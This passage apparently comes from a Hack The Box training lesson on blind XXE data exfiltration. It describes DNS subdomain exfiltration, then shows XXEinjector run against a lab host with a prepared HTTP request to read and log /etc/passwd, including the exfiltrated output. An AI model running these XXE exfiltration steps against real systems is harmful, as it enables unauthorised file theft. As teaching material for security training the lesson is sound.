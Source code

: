 Tip: In addition to storing our base64 encoded data as a parameter to our URL, we may utilize **DNS OOB Exfiltration** by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

### Automated OOB Exfiltration

Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:
```
user@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```
Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:
```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
Now, we can run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:
```
user@htb[/htb]$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:
```
user@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```
